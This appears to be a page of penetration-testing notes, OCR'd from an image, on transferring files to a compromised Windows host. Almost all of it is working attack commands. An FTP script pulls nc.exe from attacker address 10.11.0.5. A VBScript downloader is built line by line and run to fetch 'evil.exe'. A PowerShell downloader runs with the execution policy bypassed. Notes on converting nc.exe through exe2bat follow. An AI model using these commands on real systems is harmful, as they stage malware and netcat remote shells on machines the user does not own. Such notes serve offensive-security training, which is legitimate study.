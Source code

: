 Windows commands for connection
```cmd
echo open 10.11.0.5 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

## Scripting languages
### VBScript
```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Execution
```cmd
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

### Powershell
```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
Execution
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
### Debug.exe
for 32 bit systems, with 64k byte size limit for file creation
```
upx -9 nc.exe 
wine exe2bat.exe nc.exe nc.txt
```
todo